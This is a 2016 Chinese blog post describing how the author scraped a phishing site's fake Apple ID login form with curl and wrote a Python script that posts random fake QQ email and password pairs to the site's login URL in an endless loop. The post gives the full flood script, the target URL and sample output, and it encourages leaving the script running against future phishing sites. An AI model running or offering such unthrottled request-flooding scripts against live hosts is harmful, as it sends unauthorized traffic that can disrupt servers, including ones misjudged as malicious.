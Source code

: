 ```yaml
---
layout:     post
title:      "POST提交表单塞爆钓鱼网站"
subtitle:   "只适用于弱智的钓鱼网站"
date:       2016-09-21
author:     "Wcq"
header-img: "img/in-post/post-python-post.jpg"
tags:
    - 
    - 
---
```



> 据说每一个猿的指尖都隐藏着改变世界的力量  LOL


### 环境
* Python 2.7.10
* curl 7.43.0 (x86_64-apple-darwin15.0) libcurl/7.43.0 SecureTransport zlib/1.2.5
Protocols: dict file ftp ftps gopher http https imap imaps ldap ldaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp
Features: AsynchDNS IPv6 Largefile GSS-API Kerberos SPNEGO NTLM NTLM_WB SSL libz UnixSockets

### 背景
现在的诈骗信息是越来越多了 信息安全意识稍差的人极有可能中招  
今天群里一哥们公司的老总就被[http://www.lcoud.cn.com/](http://www.lcoud.cn.com/)这个钓鱼网站钓了。。。  
为此群里大牛们决定写脚本去塞爆这个钓鱼网站(其实是无聊 找点乐子 hhhhh)
受巨神们聊天的启发 整理了一下稍加改进就有了这篇随笔

### 思路
利用 curl 获得钓鱼网站登陆界面的代码 找出关键部分(文本输入框及提交按钮)  
写一个python脚本  在 while 1 里利用 post 方式提交伪造的用户名和密码  


### 实现
1、利用 curl 获得钓鱼网站登陆界面的代码并存到 source.txt 文件中  

```scss
wcq-062821@wcqdeMacBook-Pro:~/IOSCrack/tmp
> curl http://www.lcoud.cn.com/ > source.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  9623  100  9623    0     0   7336      0  0:00:01  0:00:01 --:--:--  7334
```
查看 source.txt 搜索 action得到关键代码如下：  

```scss
    <div class="main">

        <form name="form" action="/Login" method="post" target="_top">
            <div class="top"><em><img src="./index_files/yun.png" height="25"></em><span><a href="index.htm#" class="shuom"></a><a href="http://www.apple.com/cn/icloud/setup/" target="blank"><img src="./index_files/wenh.png"></a></span></div>
            <div class="login_main">
                <div class="login">
                    <div class="del">

                        <ul>
                            <li><input type="text" id="accountname" name="username" value="" errormsg="Apple ID" placeholder="Apple ID" class="l_text" autocomplete="off" style="margin-left:10px; background:none; font-family:Arial, Helvetica, sans-serif"></li>

                            <li>
                                <input type="password" id="accountpassword" name="password" value="" errormsg="Apple 密码" placeholder="Apple 密码" class="l_text" autocomplete="off" style="margin-left:10px; background:none">






                                <input class="btn" src="./index_files/btn.png" type="image" style="margin-right:10px; margin-top:6px" onClick="this.form.action='login.do';this.form.submit()">

```
对应的界面如下：  

![img](/img/in-post/post-python-post1.jpg)

由此可知 这个页面的数据是要提交到 http://www.lcoud.cn.com/Login 这个页面处理  
Apple ID 输入文本框的名字是 username ， Apple 密码 输入文本框的名字是password  
提交按钮即那个向右的箭头执行的动作是 login.do 好了 有了这些信息 我们就可以写脚本来自动提交这些东西了  

2、写 Python 脚本
新建一个 post.py 脚本文件 填入下面内容

```scss
#!/usr/bin/python

import urllib2
import urllib
import random

while 1:
    dat = random.randint(100000000,9999999999)
    tem = '%d' %dat
    usern = [tem,'@qq.com']
    mail = "".join(usern)
    print mail

    passwdint = random.randint(100000000,9999999999)
    passwd = '%d' %passwdint
    print passwd
    
    data = {'username' : mail, 'password' : passwd}
    f = urllib2.urlopen(
                    url     = 'http://www.lcoud.cn.com/login.do',
                            data    = urllib.urlencode(data)
                                    )
#print(f.read())
```
这个脚本伪造了xxxxxxxxx@qq.com 或 xxxxxxxxxx@qq.com 的 Apple ID 和  
xxxxxxxxx 或 xxxxxxxxxx 的 密码填入文本框 然后打开http://www.lcoud.cn.com/login.do 这个 url  
就是相当于按上提交按键(右箭头) 由于这里写成了死循环 只要执行这个程序不关闭 它就会一直伪造提交  

3、实验  

```scss
wcq-062821@bogon:~/IOSCrack/tmp
> python post.py
2482615300@qq.com
4783662202
4107239344@qq.com
8524584397
6160631505@qq.com
5464987127
3715364922@qq.com
3399479821
1694292525@qq.com
7180919800
```
去掉#print(f.read())这一行的#还可以看到提交后的页面的代码详情  


### 总结
这是一个十分弱智的钓鱼网站 页面仿得十分粗糙 域名也一点都不像在浏览器上连 http://都没有  
而且即使什么都不填 直接点右箭头 一样可以进入下一个界面。。。。。  
而且连保持我的登陆状态前面的框都勾不上。。。 好弱智啊！！！  
当然我们这种python post 的方式也比较弱智 效率不高 据说可以用 curl 或 lua 来实现类似功能  
有兴趣的可以试一下  
下次还看到弱智钓鱼网站 无聊的话就可以用这种方法在电脑后台挂着 我相信我也坚信 挂着挂着 钓鱼网站就会变成这样  

![img](/img/in-post/post-python-post2.jpg)

2333



